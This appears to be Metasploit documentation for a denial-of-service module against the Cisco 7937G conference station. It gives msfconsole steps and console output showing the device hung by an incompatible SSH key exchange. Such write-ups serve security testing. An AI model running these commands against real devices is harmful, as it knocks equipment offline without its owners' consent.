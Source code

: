 ## Vulnerable Application

  [Cisco 7937G](https://www.cisco.com/c/en/us/support/collaboration-endpoints/unified-ip-conference-station-7937g/model.html) Conference Station.
  This module has been tested successfully against firmware versions SCCP-1-4-5-5 and SCCP-1-4-5-7.

### Description

  This module exploits a bug in how the conference station handles incoming SSH
  connections that provide an incompatible key exchange. By connecting with an
  incompatible key exchange, the device becomes nonresponsive until it is manually power cycled.

## Verification Steps

  1. Obtain a Cisco 7937G Conference Station.
  2. Enable SSH Access on the device.
  3. Start msfconsole
  4. Do: `use auxiliary/dos/cisco/cisco_7937G_dos`
  5. Do: `set RHOST 192.168.1.10`
  6. Do: `run`
  7. The conference station should now be nonresponsive until it is power cycled

## Options

  No options

## Scenarios

### Cisco 7937G Running Firmware Version SCCP-1-4-5-7

#### Successful Scenario:
```
msf5 > use auxiliary/dos/cisco/cisco_7937G_dos 
msf5 auxiliary(dos/cisco/cisco_7937G_dos) > set rhost 192.168.110.209
rhost => 192.168.110.209
msf5 auxiliary(dos/cisco/cisco_7937G_dos) > run

[*] Starting server...
[*] 192.168.110.209 - Connected (version 2.0, client OpenSSH_4.3)
[-] 192.168.110.209 - Exception: Incompatible ssh peer (no acceptable kex algorithm)
[-] 192.168.110.209 - Traceback (most recent call last):
[-] 192.168.110.209 -   File "/usr/lib/python3/dist-packages/paramiko/transport.py", line 2083, in run
[-] 192.168.110.209 -     self._handler_table[ptype](self, m)
[-] 192.168.110.209 -   File "/usr/lib/python3/dist-packages/paramiko/transport.py", line 2198, in _negotiate_keys
[-] 192.168.110.209 -     self._parse_kex_init(m)
[-] 192.168.110.209 -   File "/usr/lib/python3/dist-packages/paramiko/transport.py", line 2354, in _parse_kex_init
[-] 192.168.110.209 -     raise SSHException(
[-] 192.168.110.209 - paramiko.ssh_exception.SSHException: Incompatible ssh peer (no acceptable kex algorithm)
[-] 192.168.110.209 - 
[*] 192.168.110.209 - dos non-reset attack completed!
[*] 192.168.110.209 - Errors are intended.
[*] 192.168.110.209 - Device must be power cycled to restore functionality.
[*] Auxiliary module execution completed
```

#### Unsuccessful Scenario:
```
msf5 > use auxiliary/dos/cisco/cisco_7937G_dos 
msf5 auxiliary(dos/cisco/cisco_7937G_dos) > set rhost 192.168.110.209
rhost => 192.168.110.209
msf5 auxiliary(dos/cisco/cisco_7937G_dos) > run

[*] Starting server...
[-] 192.168.110.209 - Device doesn't appear to be functioning (already dos'd?) or SSH is not enabled.
[*] Auxiliary module execution completed
```

### Cisco 7937G Running Firmware Version SCCP-1-4-5-5

#### Successful Scenario:
```
msf5 > use auxiliary/dos/cisco/cisco_7937G_dos 
msf5 auxiliary(dos/cisco/cisco_7937G_dos) > set rhost 192.168.110.209
rhost => 192.168.110.209
msf5 auxiliary(dos/cisco/cisco_7937G_dos) > run

[*] Starting server...
[*] 192.168.110.209 - Connected (version 2.0, client OpenSSH_4.3)
[-] 192.168.110.209 - Exception: Incompatible ssh peer (no acceptable kex algorithm)
[-] 192.168.110.209 - Traceback (most recent call last):
[-] 192.168.110.209 -   File "/usr/lib/python3/dist-packages/paramiko/transport.py", line 2083, in run
[-] 192.168.110.209 -     self._handler_table[ptype](self, m)
[-] 192.168.110.209 -   File "/usr/lib/python3/dist-packages/paramiko/transport.py", line 2198, in _negotiate_keys
[-] 192.168.110.209 -     self._parse_kex_init(m)
[-] 192.168.110.209 -   File "/usr/lib/python3/dist-packages/paramiko/transport.py", line 2354, in _parse_kex_init
[-] 192.168.110.209 -     raise SSHException(
[-] 192.168.110.209 - paramiko.ssh_exception.SSHException: Incompatible ssh peer (no acceptable kex algorithm)
[-] 192.168.110.209 - 
[*] 192.168.110.209 - dos non-reset attack completed!
[*] 192.168.110.209 - Errors are intended.
[*] 192.168.110.209 - Device must be power cycled to restore functionality.
[*] Auxiliary module execution completed
```

#### Unsuccessful Scenario:
```
msf5 > use auxiliary/dos/cisco/cisco_7937G_dos 
msf5 auxiliary(dos/cisco/cisco_7937G_dos) > set rhost 192.168.110.209
rhost => 192.168.110.209
msf5 auxiliary(dos/cisco/cisco_7937G_dos) > run

[*] Starting server...
[-] 192.168.110.209 - Device doesn't appear to be functioning (already dos'd?) or SSH is not enabled.
[*] Auxiliary module execution completed
```
